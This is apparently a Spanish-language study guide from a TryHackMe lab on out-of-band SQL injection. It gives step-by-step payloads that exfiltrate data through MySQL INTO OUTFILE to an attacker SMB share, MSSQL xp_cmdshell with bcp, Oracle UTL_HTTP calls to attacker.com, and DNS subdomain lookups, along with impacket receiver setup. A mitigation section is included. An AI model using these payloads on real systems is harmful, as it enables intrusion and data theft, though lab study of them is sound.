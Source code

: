 # Out-of-band (OOB) SQL Injection — Guía paso a paso (MD)

## Resumen breve

OOB SQLi: técnica que separa canal de inyección del canal de exfiltración usando DNS/HTTP/SMB/archivos/ejecución de comandos. Se usa cuando respuestas directas están filtradas, sanitizadas o bloqueadas por WAF/IDS.

---

## Objetivo

Ejecutar una prueba de OOB SQLi para exfiltrar datos cuando la respuesta directa de la aplicación/DB está restringida. Registrar evidencia en un receptor controlado (SMB/HTTP/DNS).

---

## Requisitos previos

* Acceso a un parámetro vulnerable (p. ej. `visitor_name` en una query GET).
* Máquina atacante capaz de recibir conexiones (servidor SMB, servidor HTTP, servidor DNS con control de subdominios).
* Herramientas básicas: `python3`, `impacket` (ejemplos: `smbserver.py`), `smbclient`.
* Permisos y entorno de laboratorio (TryHackMe/entorno controlado).

---

## Flujo operativo — pasos ordenados para llevar a cabo la tarea

### Paso 1 — Identificar parámetro vulnerable

1. Encontrar entrada que afecta a la consulta SQL (p. ej. `?visitor_name=Tim`).
2. Probar terminadores de string y terminadores de sentencia (`'`, `";"`, `--`) para confirmar inyección y permitir múltiples queries.

   ```http
   GET /oob/search_visitor.php?visitor_name=Tim'
   ```

### Paso 2 — Determinar capacidad del motor DB

1. Verificar si la DB permite `INTO OUTFILE`, UDFs, paquetes (Oracle `UTL_HTTP`, MSSQL `xp_cmdshell`).
2. Si se tiene acceso a consultas, intentar `SHOW VARIABLES LIKE 'secure_file_priv';` (si es accesible).
   *Si no es accesible, proceder por prueba y error con rutas comunes.*

### Paso 3 — Preparar receptor externo

1. Para SMB (escribir archivos):

   ```bash
   cd /opt/impacket/examples
   python3.9 smbserver.py -smb2support -comment "My Logs Server" -debug logs /tmp
   # En otra terminal: smbclient //ATTACKBOX_IP/logs -U guest -N
   ```
2. Para HTTP: disponer un servidor que registre GET/POST (`nc -l -p 80`, `python3 -m http.server` con logging, o endpoint personalizado).
3. Para DNS: configurar un dominio controlado y un servidor DNS que registre subdomain queries.

### Paso 4 — Construir payload adecuado al DB y al canal

* MySQL INTO OUTFILE → SMB:

  ```sql
  1'; SELECT @@version INTO OUTFILE '\\\\ATTACKBOX_IP\\logs\\out.txt'; --
  ```
* MSSQL xp_cmdshell + bcp → SMB:

  ```sql
  EXEC xp_cmdshell 'bcp "SELECT sensitive_data FROM users" queryout "\\\\10.10.58.187\\logs\\out.txt" -c -T';
  ```
* Oracle UTL_HTTP → HTTP exfil:

  ```plsql
  DECLARE
    req UTL_HTTP.REQ;
  BEGIN
    req := UTL_HTTP.BEGIN_REQUEST('http://attacker.com/exfiltrate?d=' || SENSITIVE_COLUMN);
    UTL_HTTP.GET_RESPONSE(req);
  END;
  ```
* DNS exfil (conceptual): construir consultas que provoquen lookups a `base32(data).exfil.tu-dominio.com`.

### Paso 5 — Inyectar payload

1. Insertar payload en el parámetro vulnerable y ejecutar la petición.

   ```http
   GET /oob/search_visitor.php?visitor_name=1'; SELECT @@version INTO OUTFILE '\\ATTACKBOX_IP\logs\out.txt'; --
   ```
2. Observar el receptor para confirmar llegada del archivo/consulta/registro.

### Paso 6 — Confirmar y recolectar evidencia

1. En SMB receiver: `ls /tmp` para listar `out.txt`.
2. En HTTP receiver: revisar logs de requests.
3. En DNS server: revisar queries recibidas con subdominios que contienen datos codificados.
4. Documentar rutas, timestamps, payload exacto y captura de pantalla/archivo.

---

## Comandos y ejemplos (referencia rápida)

**Levantar SMB receiver**

```bash
cd /opt/impacket/examples
python3.9 smbserver.py -smb2support -comment "My Logs Server" -debug logs /tmp
smbclient //ATTACKBOX_IP/logs -U guest -N
```

**Payload MySQL (INTO OUTFILE a SMB)**

```sql
1'; SELECT @@version INTO OUTFILE '\\\\ATTACKBOX_IP\\logs\\out.txt'; --
```

**Payload MSSQL (xp_cmdshell + bcp)**

```sql
EXEC xp_cmdshell 'bcp "SELECT sensitive_data FROM users" queryout "\\\\10.10.58.187\\logs\\out.txt" -c -T';
```

**Payload Oracle (UTL_HTTP)**

```plsql
DECLARE
  req UTL_HTTP.REQ;
BEGIN
  req := UTL_HTTP.BEGIN_REQUEST('http://attacker.com/exfiltrate?d=' || SENSITIVE_COLUMN);
  UTL_HTTP.GET_RESPONSE(req);
END;
```

**Verificar secure_file_priv (si hay acceso)**

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

---

## Flashcard (frontal / contraportada)

* **Frontal:** ¿Qué es OOB SQLi y cuándo se usa?
* **Contraportada:** Técnica que separa el canal de inyección y el de exfiltración (DNS/HTTP/SMB/archivos/exec) para extraer datos cuando las respuestas directas están bloqueadas o filtradas.

---

## Glosario técnico (término — definición — ejemplo)

* **OOB (Out-of-band)** — Exfiltración por canal distinto al de la consulta. — *Generar DNS lookup con datos codificados.*
* **INTO OUTFILE** — MySQL: escribe resultados en archivo del sistema. — `SELECT user,pass FROM users INTO OUTFILE '/tmp/out.txt';`
* **secure_file_priv** — Variable MySQL que restringe rutas para operaciones de archivo. — `SHOW VARIABLES LIKE 'secure_file_priv';`
* **UDF (User-Defined Function)** — Función cargada en DB para extender capacidades (p. ej. HTTP). — `SELECT http_post('http://...')` si existe.
* **xp_cmdshell** — MSSQL: ejecuta comandos de sistema. — `EXEC xp_cmdshell 'dir C:\'`.
* **DNS exfiltration** — Encodificar datos en subdominios consultados por la DB hacia un DNS controlado. — *subdomain* = `b32(data).exfil.attacker.com`.
* **SMB/UNC** — Protocolo/forma de compartir archivos Windows; permite `\\IP\share\file`. — `INTO OUTFILE '\\\\ATTACKER_IP\\share\\file.txt'`.
* **UTL_HTTP / UTL_FILE** — Oracle: paquetes para HTTP y archivo desde PL/SQL. — Permiten exfil vía HTTP o escritura de archivos.

---

## Consideraciones operativas y mitigaciones (acción dirigida)

* Limitar privilegios de la cuenta de la aplicación: eliminar permisos FILE/xp_cmdshell/UTL_* y prohibir carga de UDFs.
* Configurar `secure_file_priv` a un directorio controlado y monitorizado; no dejar vacío.
* Restringir egress desde servidores DB (firewall) a sólo destinos necesarios.
* Monitorizar consultas que contengan terminadores de sentencia, rutas UNC, uso de paquetes UTL_*, llamadas a funciones no estándar o intentos de carga de UDFs.
* Loguear y alertar en DNS/HTTP saliente por subdominios o destinos inusuales.

---

## Notas finales (operacionales)

* Si `secure_file_priv` está definido, probar rutas dentro del directorio permitido.
* Si la DB no expone capacidades de red nativas, considerar UDFs o vectores de transferencia a nivel de sistema operativo (si está habilitado).
* Documentar cada intento y mantener pruebas reproducibles en laboratorio controlado.

---
